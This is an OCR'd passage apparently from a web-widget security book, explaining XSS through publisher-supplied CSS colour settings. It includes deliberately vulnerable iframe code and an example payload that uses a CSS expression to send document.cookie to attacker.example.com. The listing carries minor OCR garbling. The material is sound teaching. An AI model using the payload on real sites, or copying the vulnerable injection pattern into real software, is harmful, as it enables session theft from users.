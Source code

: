## XSS CSS

## **7.2.2 XSS vulnerabilities in CSS**

Another example of a successful XSS attack would be an attack on your widget’s CSS

customization rules. Sometimes, when you want to make your widget more configu-
rable, you allow publishers to specify custom styles to apply to your widget, even com-
ponents that are served behind an iframe. You learned about this technique in

chapter 3 where we covered adaptive HTML and CSS.
Take a look at listing 7.1. Here, the publisher is including the Camera Stork widget

on their web page. Additionally, they’re specifying two custom colors using global vari-
ables: stork_bg_color, which contains a background color, and stork_fg_color, the

foreground (text) color.

**Listing 7.1 A publisher specifies two custom colors using global configuration variables**

<script>
var stork_bg_color = '#000';
var stork_fg_color = '#fff';
(function() {
var script = document.createElement('script');
script.async = true;
script.src = 'http://camerastork.com/widget.js?product=1234';
var entry = document.getElementsByTagName('script')[0];
entry.parentNode.insertBefore(script, entry);
})();
</script>

Suppose that this version of the Camera Stork widget generates its markup behind an
external iframe. Listing 7.2 shows the code for generating the iframe HTML. It
extracts the custom color arguments from the iframe URL’s query string,5

and injects

them into the page.

**Listing 7.2 Vulnerable code that injects publisher-specified color settings**

<!DOCTYPE html>
<html>
<head>
<script src="/js/helpers.js"></script>
</head>
<body>
<script>
var args = parseQueryArguments(window.location.search);
Listing 7.1 A publisher specifies two custom colors using global configuration variables

5 The color parameters could alternatively be passed to the iframe using the URL document fragment (#) or a
window messaging API like window.postMessage.

var rules = [];
if (args.bg) {
rules.push('body { background-color: ' + args.bg + '; }');
})
if (args.fc) {
rules.push('body { color: ' + args.fc + '; }');
}
var css = rules.join('\n');
var style;
if (rules.length) {
style = document.createElement('style');
style.type = 'text/css';
style.appendChild(document.createTextNode(css));
document.head.appendChild(style);
}
</script>

<!-- The rest of the iframe body -->
</body>
</html>
Now assume that the attacker installs your widget on their own website and, instead of
specifying a background color value, puts the following code inside the
stork_bg_color variable:
var stork_bg_color = '#000;x:expression(var i = new Image;' +
'i.src="http://attacker.example.com/?c=" + document.cookie);';
When executed, this code will close the background-color CSS rule and declare an
additional, malicious, CSS expression. This expression executes what should be a
familiar piece of JavaScript code—code that sends the user’s current session identifier
to the attacker’s website using a hidden Image object. Now, the attacker simply needs
to lure one of your users to a page hosting the exploited widget6

and the damage is
done—the attacker has received the contents of the user’s cookie and has stolen their
session. Because the attacking code is executed inside an iframe hosted on your
domain, the malicious code will have access to all cookies from your domain, even
though they’re not accessible from outside the iframe.
BEWARE UNTRUSTED PUBLISHERS Not everyone who installs your application
does so because they actually intend to use it. Some people will install your
application to establish themselves as an entry point for an attack on your
users and—as you’ll learn later in this chapter—even other publishers. You

should consider input values from publishers to be just as potentially danger-
ous as those from regular users.

6 This can be as simple as sending an email with a link to the exploited page to an unsuspecting victim.

This CSS expression example only works in Internet Explorer, but it’s one of many XSS
entry points available to an experienced attacker. Alternatively, the attacker could
close the <style> tag in listing 7.2 and start injecting arbitrary code into your iframe’s

<head> section. Other exploits include putting javascript:<expr> as a URL for an
image, putting a JavaScript exception inside of a refresh meta tag in Firefox, and so
on. For an excellent list of possible XSS entry points, you can refer to the XSS Cheat
Sheet located at http://ha.ckers.org/xss.html.
Now that you’ve learned about different ways your web application can be—will
be—attacked, it’s probably useful if we show you a few ways to defend your application
against XSS attacks.

---

#### From [[_2_cross-site-scripting]]

[//begin]: # "Autogenerated link references for markdown compatibility"
[_2_cross-site-scripting]: _2_cross-site-scripting "Cross-Site Scripting"
[//end]: # "Autogenerated link references"
